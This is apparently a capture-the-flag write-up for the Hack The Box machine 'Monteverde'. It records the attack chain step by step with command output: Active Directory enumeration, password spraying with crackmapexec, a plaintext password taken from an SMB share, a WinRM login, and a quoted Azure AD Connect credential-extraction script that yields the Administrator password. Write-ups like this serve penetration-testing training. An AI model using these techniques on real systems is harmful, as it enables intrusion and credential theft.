

# Monteverde
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.172 -T4          
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 17:02 BST
Nmap scan report for 10.10.10.172 (10.10.10.172)
Host is up (0.095s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49697/tcp open  unknown
54886/tcp open  unknown
```
```
└─$ nmap -Pn -p88,135,139,389,464,593,636,3268,3269,5985,9389 -sC -sV 10.10.10.172 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 17:38 BST
Nmap scan report for 10.10.10.172 (10.10.10.172)
Host is up (0.16s latency).

PORT     STATE SERVICE      VERSION
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-09-02 16:37:49Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf       .NET Message Framing
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
|_smb2-time: ERROR: Script execution failed (use -d to debug)

```
- `smb`
```
```
- `ldap`
```
└─$ ldapsearch -H ldap://10.10.10.172 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=MEGABANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=MEGABANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=MEGABANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=MEGABANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=MEGABANK,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

## Foothold
- Will dump everything `ldapsearch -H ldap://10.10.10.172 -x -b "DC=MEGABANK,DC=LOCAL"`
```
└─$ ldapsearch -H ldap://10.10.10.172 -x -b "DC=MEGABANK,DC=LOCAL" 
# extended LDIF
#
# LDAPv3
# base <DC=MEGABANK,DC=LOCAL> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# MEGABANK.LOCAL
dn: DC=MEGABANK,DC=LOCAL
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=MEGABANK,DC=LOCAL
instanceType: 5
whenCreated: 20200102220515.0Z
whenChanged: 20230902160106.0Z
subRefs: DC=ForestDnsZones,DC=MEGABANK,DC=LOCAL
subRefs: DC=DomainDnsZones,DC=MEGABANK,DC=LOCAL
subRefs: CN=Configuration,DC=MEGABANK,DC=LOCAL
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAD3ugOsMvMU+GSt3sotNcxQ==
uSNChanged: 77851
name: MEGABANK
objectGUID:: dF0ZQW9mmEa6eGdQmEH00A==
replUpToDateVector:: AgAAAAAAAAALAAAAAAAAAA97oDrDLzFPhkrd7KLTXMUFcAAAAAAAAHgMH
 xQDAAAAR5FJQrVN102DFng19yhewBEwAQAAAAAAQO0DGwMAAAAwI/VDJY7GTL9LbBrQc6myECABAA
 AAAABJ0GoZAwAAADOghEir6oNEsvEJ9u8wjngKwAAAAAAAALHzHxQDAAAATEU0VTJDIUOpC+muz1W
 GHAzgAAAAAAAAFc0jFAMAAABlUzJYUqlcQa1wRtRT7+pYCbAAAAAAAAAH5x8UAwAAAF7963Yf1ZpM
 jnEppodbjcsOAAEAAAAAAE3OshYDAAAAhz8WkG49/0eslA/vS3oKjgeQAAAAAAAA5BYfFAMAAAAPn
 /fkzuNaRKsJOojPyQTJBoAAAAAAAAA5Ex8UAwAAAKdfSfADqmJLvDeHFzYjcqcL0AAAAAAAALqZIx
 QDAAAASULD+GgHQU+OAWPs7IQ4IQ8QAQAAAAAAYz1oGQMAAAA=
creationTime: 133381440661787842
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
...
```
- We can also use `rpcclient`
  - https://www.hackingarticles.in/active-directory-enumeration-rpcclient/
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration
  - 
```
└─$ rpcclient -U "" -N 10.10.10.172  
```
```
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```
```                             
rpcclient $> querydispinfo
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos       Name: Dimitris Galanos  Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope  Name: Mike Hope Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary        Name: Ray O'Leary       Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs    Name: SABatchJobs       Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)
```
- No more information we could retrieve
  - So we might try password spraying using `crackmapexec`
  - First, we will try using usernames as passwords
    - Then we might need to create different password list using names combinations
      - [CeWL](https://github.com/digininja/CeWL)
      - 
```
└─$ crackmapexec smb 10.10.10.172 -u users.list -p users.list 
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:roleary STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

- Now let's enumerate `smb`
```
└─$ smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
[+] IP: 10.10.10.172:445        Name: 10.10.10.172                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        azure_uploads                                           READ ONLY
        C$                                                      NO ACCESS       Default share
        E$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        users$                                                  READ ONLY
```
```
└─$ smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -R users$
[+] IP: 10.10.10.172:445        Name: 10.10.10.172                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        users$                                                  READ ONLY
        .\users$\*
        dr--r--r--                0 Fri Jan  3 13:12:48 2020    .
        dr--r--r--                0 Fri Jan  3 13:12:48 2020    ..
        dr--r--r--                0 Fri Jan  3 13:15:23 2020    dgalanos
        dr--r--r--                0 Fri Jan  3 13:41:18 2020    mhope
        dr--r--r--                0 Fri Jan  3 13:14:56 2020    roleary
        dr--r--r--                0 Fri Jan  3 13:14:28 2020    smorgan
        .\users$\mhope\*
        dr--r--r--                0 Fri Jan  3 13:41:18 2020    .
        dr--r--r--                0 Fri Jan  3 13:41:18 2020    ..
        fw--w--w--             1212 Fri Jan  3 14:59:24 2020    azure.xml
```
- Let's get `azure.xml` from `mhope`'s directory
```
└─$ smbclient -U SABatchJobs //10.10.10.172/users$ --password 'SABatchJobs'
```
- `azure.xml`
  - Looks like we have a password
```
└─$ cat azure.xml                                            
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>  
```

- Let's check it via `crackmapexec`
```
└─$ crackmapexec smb 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ 
```
```
└─$ crackmapexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
SMB         10.10.10.172    5985   MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
HTTP        10.10.10.172    5985   MONTEVERDE       [*] http://10.10.10.172:5985/wsman
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```
- We can `evil-winrm`



- By the way, we could've also checked the domain information using `bloodhound-python`
  - `bloodhound-python -c all -u mhope -p '4n0therD4y@n0th3r$' -d MEGABANK.LOCAL -ns 10.10.10.172  --zip`
## Root
- `mhope` user
```
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
```
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```
- We see `Azure Admins` group
  - We also saw `azure_uploads` share
  - Let's check everything `Azure`-related

```
*Evil-WinRM* PS C:\Program files> ls *Azure*


    Directory: C:\Program files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

- Okay, we have a `Azure AD Connect`
  - https://blog.xpnsec.com/azuread-connect-for-redteam/
  - We can use the following [powershell script](https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545#file-azuread_decrypt_msol-ps1)
  - We only need to modify connection parameters like in https://sqladm.in/posts/how_to_connect_to_sql_with_powershell/
```
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
...
```

- Let's run the `poc`
  - `Administrator:d0m@in4dminyeah!`


- Now let's get our flag


